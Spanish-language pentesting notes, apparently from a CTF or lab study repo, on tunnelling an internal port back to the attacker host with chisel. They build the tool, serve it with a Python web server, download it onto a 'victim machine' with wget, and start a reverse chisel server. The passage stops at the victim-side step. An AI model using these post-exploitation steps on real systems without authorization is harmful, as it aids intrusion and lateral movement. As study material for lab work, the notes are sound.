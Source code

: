 Si en una de las maquinas encontramos algun puerto `8000` de forma interna con un `Lavel v8` u otra version que pueda ser explotable, podemos hacer esta tecnica con lagunos repositorios de GitHub o para algun otro puerto que queramos transladar a nuestro `Host` para operar desde ahi ya que sirve para lo mencionado anteriormente (Esta tecnica sirve para transladar algun puerto o depende de lo que quieras hacer a tu `Host` para operar desde ahi mas facilmente)

URL = https://github.com/jpillora/chisel

Utilizaremos la herramienta `chisel` que es la mas utilizada para este tipo de tecnicas y sirve para abrirnos una especie de servidor para que podamos interactuar desde nuestro `Host` como si fuera una `Reverse Shell` haciendo una especie de `tunel` hacia tu `host`...

Una vez clonado en tu maquina `host` hacemos lo siguiente para montarlo...

```shell
go build -ldflags "-s -w" .
```

```shell
upx chisel
```

Con el siguiente comando veremos lo que pesa la herramienta `chisel`...

```shell
du -hc chisel
```

Por lo que abrimos un servidor de `python3` para pasarnos el `chisel` a nuestra maquina victima...

```shell
python3 -m http.server 80
```

> Maquina victima

```shell
wget http://<IP>/chisel
```

```shell
chmod +x chisel
```

Ya ahora para pasarnos el puerto que queremos por ejemplo el puerto `8000` a nuestra maquina `Host` haremos lo siguiente...

> Maquina Host

```shell
./chisel <SERVER_NAME> --reverse -p <PORT>
```

```shell
./chisel server --reverse -p 1234
```

Donde pone `server` es el nombre que le quieras dar a tu "Servidor" y despues de `-p` ponemos el puerto al que queremos abrir el server por ejemplo el `1234`...

Y con eso ya estaria montado el servidor y abierto...

> Maquina victima
